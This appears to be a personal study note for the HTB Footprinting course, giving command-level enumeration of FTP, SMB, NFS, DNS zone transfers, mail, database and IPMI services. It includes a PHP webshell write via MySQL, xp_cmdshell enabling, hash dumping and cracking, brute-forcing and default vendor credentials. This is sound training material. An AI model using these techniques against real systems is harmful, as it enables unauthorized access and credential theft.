


# Footprinting (HTB Supplementary)

#Footprinting #ServiceEnumeration #FTP #SMBrpcclient #NFS #AXFR #ZoneTransfer #IMAP #POP3 #MySQL #MSSQL #OracleTNS #IPMI #odat #impacket #RAKP #Hashcat #HTBSupplementary

**HTB Footprinting module** — supplementary to Offsec Module 6 (Information Gathering). The Offsec module covers DNS, SMB, SMTP, and SNMP at good depth. This note covers what HTB adds on top: proper AXFR zone transfer workflow, rpcclient SMB enumeration, NFS service fingerprinting, IMAP/POP3 email reading, MySQL/MSSQL/Oracle TNS database client access, and IPMI hash dumping. Techniques from this module that already had Offsec coverage are not duplicated here.

> 🔁 Cross-refs: [[Information Gathering#6.4.1. DNS Enumeration|6.4.1 DNS]], [[Information Gathering#6.4.4. SMB Enumeration|6.4.4 SMB]], [[Information Gathering#6.4.5. SMTP Enumeration|6.4.5 SMTP]], [[Information Gathering#6.4.6. SNMP Enumeration|6.4.6 SNMP]]

---

## FP.1. FTP Enumeration (Port 21)

FTP (File Transfer Protocol) is a reliable first target during service enumeration, especially for anonymous access or misconfigured file servers. Two-step approach: banner the service, then test for anon login.

```bash
# Version + banner
sudo nmap -sV -p21 TARGET

# NSE scripts for FTP
nmap -p21 --script=ftp-anon,ftp-syst,ftp-brute TARGET

# Verbose packet-level banner grab (useful when comparing against firewall evasion techniques)
sudo nmap -p21 -sV --disable-arp-ping -n --packet-trace TARGET
```

**Anonymous login check** (very common on misconfigured FTP servers):
```bash
ftp TARGET
# Username: anonymous
# Password: anonymous  (anything works if anonymous access is enabled)
```

Inside the FTP session:
```bash
ls -la            # list files including hidden
cd dirname        # navigate directories
get filename      # download a file to local CWD
put filename      # upload a file (if write permissions exist)
!cat filename     # run a LOCAL shell command (! prefix = runs on your Kali, not the server)
```

> 📸 Screenshot: FTP anonymous login success banner + `ls -la` output showing world-readable files or config files

For **non-standard ports**, the `ftp` client accepts a port argument:
```bash
ftp TARGET PORT
```

> 🔍 Worth remembering generally: FTP stores files with the same ACLs as the underlying OS. If anonymous is enabled and the FTP root includes config dirs, backup files, or service account home directories, it's a free credential find. Always look for `.bash_history`, `*.conf`, `*.ini`, `*.bak`, `id_rsa`.

> 🔁 Similar to: [[Linux Privilege Escalation#18.2.1|18.2.1 Config file hunting]] (same credential-in-config pattern, different location) and [[Information Gathering#6.4.3. Nmap Scanning|6.4.3]] banner grabbing with `nc -nv`

#### Tags: #FTP #Anonymous #NmapNSE #BannerGrabbing

---

## FP.2. SMB: rpcclient Enumeration (Ports 139/445)

The Offsec module covers share listing, OS discovery via Nmap NSE scripts, and `net view`. **rpcclient** fills a different gap: it speaks the raw RPC protocol over SMB and lets you query domain info, shares, and users in ways the NSE scripts sometimes miss or skip.

> 🔁 Similar to: [[Information Gathering#6.4.4. SMB Enumeration|6.4.4 SMB]] (that section covers Nmap NSE + nbtscan + net view; this section adds rpcclient on top)

**Null session (no credentials):**
```bash
rpcclient -U "" TARGET        # empty username string
rpcclient -U "%" TARGET       # alternative null session syntax (user%, pass%)
```

If those fail and you have valid credentials:
```bash
rpcclient -U 'DOMAIN\username%password' TARGET
```

Useful **commands inside** the rpcclient shell:
```bash
querydominfo          # domain name, server OS role, total users + groups
netshareenum          # list shares (equivalent to smbclient -L)
netsharegetinfo SHARENAME   # per-share detail: disk path, remark, permissions
srvinfo               # server platform + OS version info
enumdomusers          # list all domain user accounts (if RPC permits it)
enumdomgroups         # list domain groups
querydispinfo         # users with display names + descriptions
queryuser RID         # full detail for a specific user by RID
lookupnames username  # resolve username to SID
```

> 📸 Screenshot: `querydominfo` output showing domain name + total user count; `netsharegetinfo` showing a share's disk path

> 🔍 Worth remembering generally: `querydispinfo` is worth running on every DC or Samba server you touch. Lazy admins sometimes put temporary passwords or helpdesk notes directly in the user Description field. It's exposed here without needing LDAP access.

> 🔧 Technique: null sessions work far more reliably against legacy Windows (2008/2012) and Samba servers than against hardened modern AD. On a fully patched Windows Server 2022 domain controller, expect ACCESS_DENIED on most commands and need valid domain creds to go further.

> 🔁 Similar to: [[Password Attacks]] — RID cycling via rpcclient `enumdomusers` is the same user-enumeration groundwork used in password spraying later

#### Tags: #SMB #rpcclient #NullSession #DomainEnum #RIDCycling

---

## FP.3. NFS: Share Enumeration (Ports 111/2049)

NFS (Network File System) turns up during service enumeration and is worth a closer look than just the port being open. The [[Linux Privilege Escalation#18.5.9|18.5.9]] section covers the `no_root_squash` privilege escalation angle. This section covers the **enumeration** perspective: find what's exported, mount it, and look for useful data.

**Discover what's exported** (queries portmapper, no authentication needed):
```bash
showmount -e TARGET

# Nmap NSE scripts for NFS
sudo nmap -p111,2049 --script=nfs-ls,nfs-statfs,nfs-showmount TARGET
```

**Mount a discovered share:**
```bash
mkdir /mnt/nfs
sudo mount -t nfs TARGET:/SHAREPATH /mnt/nfs/ -v
ls -la /mnt/nfs/
```

> 📸 Screenshot: `showmount -e` listing available exports + which client IPs are allowed; then `ls -la /mnt/nfs/` after mounting

**Search the mounted share for credentials:**
```bash
grep -rn "password\|passwd\|secret\|token" /mnt/nfs/ 2>/dev/null
find /mnt/nfs -name "*.conf" -o -name "*.ini" -o -name "*.bak" -o -name "id_rsa" 2>/dev/null
```

When done:
```bash
sudo umount /mnt/nfs
```

> 🔍 Worth remembering generally: NFS exports sometimes include directories that are world-readable at the OS level, even if they're not web-accessible. Support ticket archives, user home backups, and dev environment configs turn up this way. Always check recursively.

> 🔁 Similar to: [[Linux Privilege Escalation#18.5.9|18.5.9 NFS no_root_squash]] (same mount commands, but here you're looking for data rather than a privesc path)

#### Tags: #NFS #showmount #MountedShares #Enumeration

---

## FP.4. DNS: AXFR Zone Transfer

Section [[Information Gathering#6.4.1. DNS Enumeration|6.4.1]] covers `host`, `dnsrecon`, and `dnsenum` for DNS enumeration. The **AXFR zone transfer** is the big one to add explicitly. If a nameserver isn't configured to restrict zone transfers to authorised secondary servers only, any client can request a full dump of the zone database.

**Enumerate nameservers first:**
```bash
# Which nameservers are authoritative?
dig ns DOMAIN @TARGET_DNS
```

**Attempt the zone transfer:**
```bash
# AXFR against the primary nameserver
dig axfr DOMAIN @TARGET_DNS

# Also try internal subdomains (common in Active Directory environments)
dig axfr internal.DOMAIN @TARGET_DNS
```

If the transfer succeeds, you get every A, CNAME, MX, TXT, and PTR record for the zone in one shot. Common finds: internal hostnames, dev/staging subdomains, and internal mail server details that don't appear in public DNS.

> 📸 Screenshot: `dig axfr DOMAIN @nameserver` output showing a full zone dump with internal hostnames

> 🔍 Worth remembering generally: always try the zone transfer against **every nameserver** in the `dig ns` output, not just the primary. Secondary nameservers sometimes have looser transfer policies than the primary, and the second or third NS in the list is the one that gives it up.

```bash
# dnsenum covers AXFR automatically alongside subdomain brute-forcing
dnsenum --dnsserver TARGET_DNS --enum -p 0 -s 0 -o subdomains.txt \
  -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt DOMAIN
```

**From Windows** (if you already have a foothold):
```cmd
nslookup
> server TARGET_DNS
> ls -d DOMAIN
```
`ls -d` in nslookup is the Windows equivalent of AXFR. Same idea, same result, works without Nmap or dig.

> 🔁 Cross-ref: [[Information Gathering#6.4.1. DNS Enumeration|6.4.1 DNS]] for the full enumeration workflow; FriendZone and Trick in the Related Boxes section at the bottom of that note are both pure zone-transfer-to-foothold boxes

#### Tags: #DNS #AXFR #ZoneTransfer #dig #dnsenum #nslookup

---

## FP.5. SMTP: smtp-user-enum Command

Section [[Information Gathering#6.4.5. SMTP Enumeration|6.4.5]] covers manual VRFY via netcat and a custom Python script. **smtp-user-enum** automates the same thing against a full wordlist in one run.

```bash
# VRFY method (most common — checks whether a mailbox exists)
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t TARGET

# EXPN method (mailing list expansion — less commonly supported)
smtp-user-enum -M EXPN -U wordlist.txt -t TARGET

# RCPT TO method (works when VRFY/EXPN are disabled; needs a valid From domain)
smtp-user-enum -M RCPT -U wordlist.txt -t TARGET -D example.com

# Adjust concurrency and per-connection timeout for slow or rate-limiting targets
smtp-user-enum -M VRFY -U wordlist.txt -t TARGET -m 60 -w 20
# -m 60 = max 60 parallel connections, -w 20 = 20 second per-connection timeout
```

> 🔍 Worth remembering generally: many MTAs disable VRFY/EXPN but still respond differently to valid vs invalid RCPT TO recipients. If VRFY returns 502 Not Implemented, always try RCPT TO before giving up on user enumeration.

> 🔧 Technique: on some servers VRFY responses aren't reliable for all usernames. Run against a username you know is bogus (e.g. `aaaaaaaaa`) alongside a real guess and compare the response codes to baseline the server's behaviour before treating hits as definitive.

> 🔁 Similar to: [[Information Gathering#6.4.5. SMTP Enumeration|6.4.5 SMTP]] (same technique, smtp-user-enum just replaces the manual per-username Python script)

#### Tags: #SMTP #SmtpUserEnum #VRFY #EXPN #RCPTTO #UserEnumeration

---

## FP.6. IMAP / POP3 (Ports 110/143/993/995)

These protocols don't appear anywhere in the Offsec modules. IMAP and POP3 are email retrieval protocols: POP3 downloads and usually deletes, IMAP syncs and keeps messages server-side. In pentesting contexts, the value is in **reading email** to find credentials, internal comms, or MFA tokens.

```bash
# Port and version scan
nmap -p110,143,993,995 -sC -sV TARGET
```

The NSE default scripts (`-sC`) pull SSL certificate info automatically. Check the `commonName` and `organizationName` fields in the cert output, they often reveal internal FQDNs or hostnames useful for further enumeration.

---

**IMAPS (SSL/TLS, port 993) — interactive session:**
```bash
openssl s_client -connect TARGET:imaps
# Scroll past the cert dump; wait for the capability banner (e.g. "* OK Dovecot ready")
```

IMAP commands (prefix each with a tag like `tag0`, `tag1` etc., the server echoes the tag back to confirm completion):
```bash
tag0 LOGIN username password     # authenticate
tag1 LIST "" "*"                 # list all mailboxes/folders
tag2 SELECT "INBOX"              # open a folder
tag3 FETCH 1 (BODY[])            # retrieve full body of message 1
tag4 FETCH 1:* (FLAGS)           # list all messages with read/unread flags
tag5 LOGOUT
```

> 📸 Screenshot: openssl s_client IMAPS connection showing cert details (CN + org) then successful `tag1 LIST "" "*"` output

**IMAP (plaintext, port 143) — via curl if you already have credentials:**
```bash
curl -k 'imap://TARGET' --user username:password
curl -k 'imap://TARGET/INBOX' --user username:password -v
```

---

**POP3 (plaintext, port 110):**
```bash
telnet TARGET 110
```
```
USER username
PASS password
LIST            # list messages with message numbers and sizes
RETR 1          # retrieve full message 1
DELE 1          # delete message 1 (permanent — don't do this on a client's server)
QUIT
```

**POP3S (SSL, port 995):**
```bash
openssl s_client -connect TARGET:pop3s
# Same POP3 commands after the TLS handshake
```

---



> 🔍 Worth remembering generally: on a service that has IMAP open, check whether credentials found elsewhere (SSH, SMB, web login) reuse here too. IMAP servers often share AD credentials, so a compromised domain account might have emails containing admin passwords, MFA codes, or helpdesk ticket threads with cleartext creds.

> 🔧 Technique: `curl` handles both IMAP and POP3 and is faster for scripted retrieval when you already have credentials. `openssl s_client` is better for interactive exploration when you don't know the server's capabilities yet.

#### Tags: #IMAP #POP3 #IMAPS #POP3S #EmailEnum #openssl #curl #Dovecot

---

## FP.7. MySQL Remote Enumeration (Port 3306)

MySQL shows up as a service on many Linux boxes. Even without an injection point, a remote connection with found credentials often gives database contents, credential tables, or a path to command execution via `INTO OUTFILE`.

```bash
# Version detection
nmap -p3306 -sV TARGET

# NSE scripts for MySQL
nmap -p3306 --script=mysql-info,mysql-databases,mysql-tables,mysql-users TARGET
```

**Remote client connection:**
```bash
mysql -u USERNAME -pPASSWORD -h TARGET
# Note: -p immediately followed by password with no space
# Or omit the password to be prompted interactively:
mysql -u root -p -h TARGET
```

Inside the MySQL shell:
```sql
show databases;
use DATABASENAME;
show tables;
describe TABLENAME;
select * from TABLENAME;

-- Find columns named like credentials across all databases
select table_schema, table_name, column_name
  from information_schema.columns
  where column_name like '%pass%';

-- Dump MySQL authentication hashes
select user, password from mysql.user;             -- MySQL 5.6 and older
select user, authentication_string from mysql.user; -- MySQL 5.7+
```

**File read/write (requires FILE privilege on the MySQL user):**
```sql
select load_file("/etc/passwd");

-- Write a webshell (if MySQL user has FILE and web root is writable)
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php";
```

> 📸 Screenshot: `mysql -u root -h TARGET` successful connection banner + `show databases;` listing interesting database names

> 🔍 Worth remembering generally: `information_schema` is always present and always readable. Running a column-name search for `%pass%` or `%secret%` finds credential tables without manually enumerating each database. Start there before browsing individual tables.

> 🔧 Technique: MySQL auth hashes vary by version. Identify the format before cracking: mode 200 (sha256crypt, MySQL 8), mode 11200 (MySQL323, very old), mode 3200 (bcrypt-wrapped). The `authentication_string` column prefix tells you (`$A$` = sha256crypt, `*` = older SHA1-based).

> 🔁 Similar to: [[SQL Injection Attacks]] (same SQL knowledge, different access method); [[Linux Privilege Escalation#18.2.1|18.2.1]] (wp-config.php pattern for finding MySQL credentials in the first place)

#### Tags: #MySQL #Database #RemoteClient #FileRead #SQLEnum #InformationSchema

---

## FP.8. MSSQL (Port 1433)

MSSQL is the Windows-world equivalent of MySQL, common in AD environments. Key vectors: `xp_cmdshell` for OS command execution, linked servers for lateral movement, and NTLM hash capture via `xp_dirtree` + Responder.

```bash
# Version + instance detection
nmap -sV -p1433 TARGET

# NSE bundle — covers version, empty-password check, NTLM info, table listing, hash dump
sudo nmap -sV -p1433 \
  --script="ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,\
ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes" \
  --script-args="mssql.instance-port=1433,mssql.username=sa,mssql.password=,\
mssql.instance-name=MSSQLSERVER" TARGET
```

**impacket-mssqlclient** (interactive MSSQL shell from Kali):
```bash
impacket-mssqlclient USERNAME:PASSWORD@TARGET
impacket-mssqlclient USERNAME:PASSWORD@TARGET -windows-auth   # Windows/AD auth (Kerberos/NTLM)
```

Inside the MSSQL shell:
```sql
SELECT name FROM sys.databases;          -- list all databases
USE DATABASENAME;
SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE';
SELECT * FROM TABLENAME;

-- Enable xp_cmdshell if it's disabled (requires sysadmin)
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

-- Execute OS commands
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'net user';
```

> 📸 Screenshot: `impacket-mssqlclient` connection banner showing SQL Server version + successful `SELECT name FROM sys.databases` output

> 🔍 Worth remembering generally: `xp_cmdshell` is disabled by default in modern MSSQL but re-enabling it only requires `sysadmin` privilege. If you have `sa` or another sysadmin account, enabling it takes two `EXEC sp_configure` commands. Always check if it's already on before doing the enable dance.

> 🔧 Technique: the `-windows-auth` flag makes impacket use NTLM/Kerberos instead of SQL Server native auth. Without it you're doing SQL Server auth (the `sa` login). Use `-windows-auth` when you have domain credentials rather than a SQL Server login.

> 🔁 Similar to: [[SQL Injection Attacks]] (same SQL knowledge base, different access method)

> 📖 HackTricks: [github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/pentesting-mssql-microsoft-sql-server/README.md)

#### Tags: #MSSQL #impacket #xpCmdshell #DatabaseEnum #WindowsAuth #SQLServer

---

## FP.9. Oracle TNS (Port 1521)

Oracle TNS is the connection broker for Oracle Database. Less common in CTFs than MySQL/MSSQL but turns up in enterprise targets. The main tools are `odat.py` (automated enumeration) and `sqlplus` (interactive client).

**odat (Oracle Database Attacking Tool):**
```bash
# Install if not present
sudo apt install odat

# All modules in sequence: SID discovery, credential brute-force, privesc checks, file read/write
./odat.py all -s TARGET

# Just SID discovery
./odat.py sidguesser -s TARGET

# Credential brute-force against a known SID
./odat.py passwordguesser -s TARGET -d SIDNAME
```

> 📸 Screenshot: `odat.py all -s TARGET` output showing discovered SID + valid credentials found during brute-force

**sqlplus** (Oracle's native SQL client):
```bash
# Install Oracle Instant Client + sqlplus
sudo apt install oracle-instantclient-sqlplus

# Connect: format is user/pass@host/SID
sqlplus USERNAME/PASSWORD@TARGET/XE

# Connect as sysdba (highest privilege role)
sqlplus USERNAME/PASSWORD@TARGET/XE as sysdba
```

Inside SQL*Plus:
```sql
select * from user_tables;
select * from v$version;       -- Oracle version info
select username from all_users;

-- Extract stored password hash for a user (requires sysdba or DBA)
select name, password from sys.user$ where name = 'USERNAME';
```

> 🔍 Worth remembering generally: `sys.user$` stores Oracle's internal auth hashes. Connected as sysdba, you can extract hashes for every account and crack them offline. Oracle pre-12c uses DES-based hashes that crack quickly with hashcat mode 3100.

> 🔧 Technique: the traditional Oracle test credentials are `scott/tiger`. Always try them before running odat's brute-force, they appear on older installs more often than expected. Also try `sys/oracle`, `system/manager`, and `system/oracle`.

> 🔧 Technique: odat's `all` mode runs every check sequentially which can be slow. Once you have a SID from `sidguesser`, run just `passwordguesser` against it with a targeted wordlist to save time.

> 📖 HackTricks: [github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener](https://github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/README.md)

#### Tags: #OracleTNS #odat #sqlplus #DatabaseEnum #sysdba #OracleHash

---

## FP.10. IPMI (Port 623 UDP)

IPMI (Intelligent Platform Management Interface) is an out-of-band management protocol running on a dedicated BMC (Baseboard Management Controller) chip. It lets admins remotely power on/off, access a console, and query hardware health independently of the OS. Badly configured IPMI is a gold mine: the RAKP handshake has a design flaw that lets any unauthenticated host retrieve a password hash for any valid username.

```bash
# UDP port scan
sudo nmap -sU -p623 TARGET

# MSF IPMI version probe
use auxiliary/scanner/ipmi/ipmi_version
set rhosts TARGET
run
```

**Dump IPMI password hashes (no credentials needed):**
```bash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts TARGET
set OUTPUT_JOHN_FILE /tmp/ipmi_hashes.txt
run
```

Output example:
```
[+] TARGET:623 - IPMI - Hash found: Administrator:AABBCCDD...(RAKP hex string)...
```

**Crack with hashcat (mode 7300 = IPMI2 RAKP HMAC-SHA1):**
```bash
hashcat -m 7300 -w 3 -O /tmp/ipmi_hashes.txt /usr/share/wordlists/rockyou.txt
```

> 📸 Screenshot: MSF `ipmi_dumphashes` output showing hash retrieved for Administrator; hashcat output showing cracked plaintext password

> 🔍 Worth remembering generally: IPMI hashes are RAKP (Remote Authenticated Key-Exchange Protocol) format, not standard NTLM or SHA. The raw hash file from `ipmi_dumphashes` is directly hashcat-compatible with `-m 7300`. Point hashcat straight at the output file.

> 🔧 Technique: IPMI often reuses the same password as the iDRAC/iLO web interface and sometimes mirrors the local root password on the underlying OS. A cracked IPMI hash is frequently reusable for SSH or the management web UI on the same host.

> 🔧 Technique: default IPMI credentials vary by vendor. Try these before cracking:

| Vendor | Default username | Default password |
|--------|-----------------|-----------------|
| Dell iDRAC | `root` | `calvin` |
| HP iLO | `Administrator` | `<printed on pull-tab label>` |
| Supermicro | `ADMIN` | `ADMIN` |
| Intel | `admin` | `admin` |

> 🔁 Similar to: [[Password Attacks]] (same hash-crack workflow); [[Information Gathering#6.4.6. SNMP Enumeration|6.4.6 SNMP]] (same out-of-band management mindset — underestimated protocol with big return)

> 📖 HackTricks: [github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/623-udp-ipmi](https://github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/623-udp-ipmi.md)

#### Tags: #IPMI #BMC #RAKP #Hashcat #MetasploitAux #OutOfBand #iDRAC #iLO

---

## FP.11. Service Enumeration Decision Flow

When a port comes up in your initial scan, here's the triage order for these services:



---

## FP.12. HTB Footprinting Labs

The three HTB Footprinting labs focus on credential chaining between services: credentials found in one service unlock the next. Easy lab is a linear chain, Medium and Hard add more services and require correlating findings across multiple protocols.

> 🚩 Hands-on, VM spin-up required: HTB Footprinting Lab — Easy (FTP/NFS to credential chain) ⬜ Pending

> 🚩 Hands-on, VM spin-up required: HTB Footprinting Lab — Medium (NFS + MSSQL + credential chain) ⬜ Pending

> 🚩 Hands-on, VM spin-up required: HTB Footprinting Lab — Hard (full service enumeration gauntlet: IPMI + others) ⬜ Pending

---

## Outstanding Sections

- [x] FP.1. FTP Enumeration
- [x] FP.2. SMB rpcclient
- [x] FP.3. NFS Enumeration
- [x] FP.4. DNS AXFR Zone Transfer
- [x] FP.5. SMTP smtp-user-enum
- [x] FP.6. IMAP/POP3
- [x] FP.7. MySQL Remote Enumeration
- [x] FP.8. MSSQL
- [x] FP.9. Oracle TNS
- [x] FP.10. IPMI
- [x] FP.11. Decision Flow Diagram
- Hands-on labs: HTB Footprinting Easy/Medium/Hard require VM spin-up (accessible outside Offsec VPN)

---

## Related Boxes

Technique-matching boxes for content in this note:

- **[FriendZone](https://0xdf.gitlab.io/2019/07/13/htb-friendzone.html)** (HTB, Linux, Easy): SMB share reveals credentials, then a DNS zone transfer (AXFR) uncovers hidden vhosts holding the admin panel. Direct practice of FP.2 (SMB/rpcclient) and FP.4 (AXFR). Also in [[Information Gathering]] related boxes.
- **[Trick](https://0xdf.gitlab.io/2022/10/29/htb-trick.html)** (HTB, Linux, Easy): reverse DNS + zone transfer expose two hidden vhosts (`preprod-payroll`, `preprod-marketing`) before any exploitation. Near-pure FP.4 AXFR practice.
- **[Archetype](https://0xdf.gitlab.io/2021/06/12/htb-archetype.html)** (HTB Starting Point, Windows): SMB reveals credentials, MSSQL with `xp_cmdshell` gives code execution. Directly maps to FP.2 + FP.8.
- **[Squashed](https://0xdf.gitlab.io/2023/01/06/htb-squashed.html)** (HTB, Linux, Easy): NFS with no_root_squash for file write leading to RCE. Maps to FP.3 and [[Linux Privilege Escalation#18.5.9|18.5.9]].

> Note: IPMI and Oracle TNS boxes are common in enterprise/PG Practice but rarely appear in retired public HTB boxes due to specialised service requirements, so no specific HTB named boxes here.
